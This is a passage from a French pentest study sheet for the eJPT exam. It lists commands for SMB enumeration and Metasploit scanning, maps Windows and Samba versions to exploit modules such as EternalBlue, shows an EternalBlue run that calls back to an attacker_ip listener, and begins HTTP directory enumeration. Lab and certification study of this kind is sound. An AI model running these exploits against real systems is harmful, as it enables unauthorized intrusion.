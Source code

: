#### 🔍 Détection
```bash
# Énumération complète SMB
enum4linux target
smbclient -L target
smbmap -H target

# Metasploit - SÉQUENCE OBLIGATOIRE
use auxiliary/scanner/smb/smb_version
set RHOSTS target
run

use auxiliary/scanner/smb/smb_enumshares  
run

use auxiliary/scanner/smb/smb_enumusers
run

# CHECK ETERNALBLUE - ESSENTIEL
use auxiliary/scanner/smb/smb_ms17_010
run
```

#### ⚔️ Exploitation selon version
| Détection | Exploit à utiliser |
|-----------|-------------------|
| **Windows 7/8/10/2016** + MS17-010 | `use exploit/windows/smb/ms17_010_eternalblue` |
| **Windows XP/2003** | `use exploit/windows/smb/ms08_067_netapi` |
| **Windows Vista/7/2008** | `use exploit/windows/smb/ms09_050_smb2_negotiate_func_index` |
| **Samba 3.0.20-3.0.25rc3** | `use exploit/multi/samba/usermap_script` |
| **Null sessions** | `rpcclient -U "" target` |

**🔥 Workflow EternalBlue (très fréquent eJPT) :**
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
check  # Vérifier si vulnérable
exploit
```

---

### 3.4 Si port 80/443 (HTTP/HTTPS) détecté ⭐ TRÈS IMPORTANT

#### 🔍 Détection
```bash
# Énumération web
whatweb target
curl -I http://target

# Gobuster/Dirb
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt
dirb http://target

# Metasploit
use auxiliary/scanner/http/http_version
set RHOSTS target
run

```